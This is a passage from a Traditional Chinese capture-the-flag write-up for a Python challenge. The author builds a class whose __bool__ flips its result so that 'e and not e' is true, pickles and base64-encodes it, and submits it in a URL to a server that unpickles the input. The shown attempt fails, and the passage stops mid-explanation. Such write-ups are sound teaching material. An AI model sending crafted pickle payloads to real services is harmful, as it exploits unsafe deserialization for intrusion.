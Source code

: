 就可以成功讀出 flag

當時我看到這題的第一個想法是

如果我可以寫一個自定義的 class

然後 overload and, not, bool 之類的 operator 就可以滿足這個 if 條件式了

於是我讀了一下 Python [Truth Value Testing](https://docs.python.org/3.8/library/stdtypes.html#truth) 和 [operator](https://docs.python.org/3.8/library/operator.html#module-operator) 的文檔

然後發現 and 跟 not 是不能被 overload 的

所以我現在唯一的辦法就是 overload bool operator

讓他在奇數次呼叫的時候回傳 True

偶數次呼叫回傳 False

Class 大概長這樣

```python
class Exploit(object):
    def __init__(self, initial=True):
        self.initial = initial
    def __bool__(self):
        self.initial = not self.initial
        return not self.initial
```

測試一下

```python
e = Exploit()
print(e and not e) # True
```

漂亮

接下來只要把它封裝起來就可以了

```python
import pickle
import base64
print(base64.b64encode(pickle.dumps(e)).decode())
# gANjX19tYWluX18KRXhwbG9pdApxACmBcQF9cQJYBwAAAGluaXRpYWxxA4hzYi4=
```

打包成網址

https://snake.ais3.org/?data=gANjX19tYWluX18KRXhwbG9pdApxACmBcQF9cQJYBwAAAGluaXRpYWxxA4hzYi4=

```
Traceback (most recent call last):
  File "./main.py", line 15, in index
    data = pickle.loads(data)
AttributeError: Can't get attribute 'Exploit' on <module '__main__' (built-in)>
```

經過一陣子的研究，問題在於一個很重要的概念，[文檔](https://docs.python.org/3/library/pickle.html#comparison-with-marshal)裡有提到
